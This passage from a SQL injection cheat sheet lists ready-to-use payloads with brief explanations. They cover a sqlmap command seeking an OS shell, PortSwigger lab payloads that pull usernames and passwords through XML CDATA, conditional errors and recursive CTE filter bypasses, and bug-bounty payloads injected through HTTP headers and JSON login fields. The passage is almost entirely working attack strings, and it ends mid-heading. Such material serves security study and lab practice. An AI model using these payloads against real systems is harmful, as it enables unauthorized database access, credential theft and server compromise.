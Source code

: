 ```bash
sqlmap -u "http://target.com/page?id=1" --os-shell --technique=T
```
**Explanation**: Attempts to get an operating system shell using time-based blind techniques.

## 6. PortSwigger Lab-Specific Advanced Payloads

### Lab: SQL injection with filter bypass via XML encoding

```xml
<stockCheck>
  <productId><![CDATA[123' UNION SELECT username || '~' || password FROM users--]]></productId>
  <storeId>1</storeId>
</stockCheck>
```
**Explanation**: Uses CDATA section in XML to inject SQL, combining usernames and passwords with a separator for easier reading.

### Lab: Blind SQL injection with conditional errors

```sql
' AND (SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN TO_CHAR(1/0) ELSE 'a' END FROM users)='a
```
**Explanation**: Uses a CASE statement to cause a division-by-zero error only when the condition is true, allowing data extraction through error messages.

### Lab: SQL injection with filter bypass using a recursive SELECT

```sql
' UNION WITH RECURSIVE x AS (SELECT 1 UNION ALL SELECT 1) SELECT username,password FROM users -- -
```
**Explanation**: Uses a recursive common table expression (CTE) to bypass filters that look for simple UNION SELECT patterns.

## 7. Real-World Bug Bounty Advanced Techniques

### Testing Obscure Inputs

```
X-Forwarded-For: ', (SELECT 1 FROM (SELECT SLEEP(5))x) -- -
```
**Explanation**: Injects into HTTP headers that might not be properly sanitized.

### JSON Parameter Injection

```json
{"username": "admin' OR 1=1 -- -", "password": "anything"}
```
**Explanation**: Injects SQL into JSON data in API requests.

### SQLi in Unusual File Types
